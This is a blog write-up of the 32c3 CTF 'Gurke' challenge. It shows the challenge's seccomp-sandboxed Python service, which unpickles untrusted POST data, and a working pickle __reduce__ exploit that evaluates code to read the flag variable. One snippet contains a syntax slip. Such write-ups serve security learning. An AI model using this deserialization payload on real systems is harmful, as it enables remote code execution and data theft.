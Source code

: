 Author: zlowram
Date: 12-29-2015 23:37
Title: 32c3ctf Misc Gurke write-up
Template: post
Comments: enabled

After almost a year without posting anything, here I come with the write-ups for the 32c3ctf.
For this challenge we were provided with the following script:

```python
#!/usr/bin/env python
import sys
import os

import socket
import pickle
import base64
import marshal
import types
import inspect
import encodings.string_escape

class Flag(object):
    def __init__(self):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("172.17.0.1", 1234))
        self.flag = s.recv(1024).strip()
        s.close()
flag = Flag()

from seccomp import *

f = SyscallFilter(KILL)
f.add_rule_exactly(ALLOW, "read")
f.add_rule_exactly(ALLOW, "write", Arg(0, EQ, sys.stdout.fileno()))
f.add_rule_exactly(ALLOW, "write", Arg(0, EQ, sys.stderr.fileno()))
f.add_rule_exactly(ALLOW, "close")
f.add_rule_exactly(ALLOW, "exit_group")

f.add_rule_exactly(ALLOW, "open", Arg(1, EQ, 0))
f.add_rule_exactly(ALLOW, "stat")
f.add_rule_exactly(ALLOW, "lstat")
f.add_rule_exactly(ALLOW, "lseek")
f.add_rule_exactly(ALLOW, "fstat")
f.add_rule_exactly(ALLOW, "getcwd")
f.add_rule_exactly(ALLOW, "readlink")
f.add_rule_exactly(ALLOW, "mmap", Arg(3, MASKED_EQ, 2, 2))
f.add_rule_exactly(ALLOW, "munmap")
f.load()

data = os.read(0, 4096)
try:
    res = pickle.loads(data)
    print 'res: %r\n' % res
except Exception as e:
    print >>sys.stderr, "exception", repr(e)

os._exit(0)
```

The script is something similar to what is running at the given target host,
which can be accessed via HTTP. If we just send a GET / request, it replies
with a "plz POST" message so we know that it would probably take the content of
the POST and pass it to pickle.loads() call. In the script above we can observe
that the unpickle is not done safely, so the challenge might be about
exploiting it.

Just to refresh a little bit the exploitation of an insecure unpickle, remember
that pickle is supposed to allow representing arbitrary objects, so we could
provide a crafted pickle that represent an object that could be useful to us.
The following snippet allow us to generate a pickle that represents a
"os.getcwd()" object that, once it gets deserialized, it would be executed:

```python
import pickle
import os

class RunSomething(object):
    def __reduce__(self):
		return (os.getcwd, (,))

print pickle.dumps(RunSomething())
```

With this refreshed information about pickle, we could now extend the script so
it sends the POST request to the target host with the pickle payload in it.
Before doing so, we just pay attention to the script we were provided so we can
see that the flag seems to be held by a variable within the same scope than the
picke.loads() call, called "flag". In python exists the "sys.module" structure,
which is a dictionary with information about all de loaded modules, including
the one of the script. If we take into account all of this, we can just write
the final exploit that would retrieve the flag for us:

```python
class RunSomething(object):
    def __reduce__(self):
        return (eval, ("sys.modules['__main__'].flag.flag",))

target = "http://136.243.194.43"
d = pickle.dumps(RunSomething())
r = requests.post(target, data=d)
print r.text
```

We run the script, it sends the POST request with the payload, and retrieve the flag:

```markup
32c3_rooDahPaeR3JaibahYeigoong
```

Greetings to my team [0xb33rs](http://testpurposes.net/) and [nibble](http://twitter.com/nibble_ds) for his help!

